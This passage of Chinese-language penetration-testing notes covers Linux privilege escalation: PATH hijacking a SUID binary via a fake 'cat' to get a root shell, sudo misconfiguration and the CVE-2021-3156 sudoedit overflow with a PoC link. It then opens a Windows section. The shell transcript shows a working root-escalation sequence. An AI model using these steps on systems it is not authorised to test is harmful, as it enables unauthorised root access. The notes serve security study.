 

## 04-环境变量劫持提权

PATH是Linux和类Unix操作系统中的环境变量，它指定可执行程序的所有bin和sbin存储目录。当用户在终端上运行任何命令时，它会向shell发送请求以在PATH变量中搜索可执行文件来响应用户执行的命令。

有个【 test 】文件设置了 SUID ，并且具有执行权限。执行发现调用了【 cat 】命令，在【 tmp 】目录下生成一个内容为【 /bin/bash 】的【 cat 】文件，将文件权限设置为 777，然后将当前路径也就是【. 】这个符号添加到环境变量中，然后再运行【 test 】 。

```bash
mark@any:/tmp$ ./test
cat: /tmp/1: No such file or directory
mark@any:/tmp$ echo "/bin/bash" >cat #创建名为cat的文件，内容为/bin/bash
mark@any:/tmp$ chmod 777 cat#赋予777权限
mark@any:/tmp$ export PATH=.:$PATH#将tmp目录添加环境变量
mark@any:/tmp$ ./test
root@any:/tmp# whoami
root
```

运行【test 】文件的时候，由于 PATH中加入了当前目录，它调用【 cat 】时会先找当前目录下的【 cat 】，而当前目录下【 cat 】文件的内容是【 /bin/bash 】，而【 test 】设置了 SUID ，因此会以 root 身份新开一个 Shell 。

## 05-Sudo提权

`/etc/sudoers`文件可以设置用户sudo权限，可以配置无密码直接使用sudo。使用sudo -l查看当前用户权限

```bash
giantbranch@ubuntu:~/Desktop$ sudo -l
Matching Defaults entries for giantbranch on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User giantbranch may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
```

**CVE-2021-3156**

当sudo通过 -s 或 -i 命令行选项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用 -s 或 -i 标志运行 sudoedit 时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在`/etc/sudoers`文件，攻击者就可以使用本地普通用户利用sudo获得系统root权限。

![](https://image.3001.net/images/20210201/1612146536_60176768d26a44c4e8a98.png)

若返回以`sudoedit`开头的错误，则当前系统可能存在安全风险。不受影响的系统将显示以`usage`开头的错误。[漏洞POC](https://haxx.in/CVE-2021-3156_nss_poc_ubuntu.tar.gz)

![](https://image.3001.net/images/20210201/1612146607_601767af85acfcd72e034.png!small)

# 16-权限提升-windows提权

现在的操作系统都是多用户操作系统，用户之间都有权限控制，比如通过 Web 漏洞拿到的是 Web 进程的权限，往往 Web 服务都是以一个权限很低的账号启动的，因此通过 Webshell 进行一些操作会受到限制，这就需要将其提升为管理甚至是 System 权限。提权通常是通过操作系统漏洞或者是操作系统的错误配置进行提权，也可以通过第三方软件服务，如数据库或 FTP 等软件的漏洞进行提权。

## 01-缓冲区溢出提权
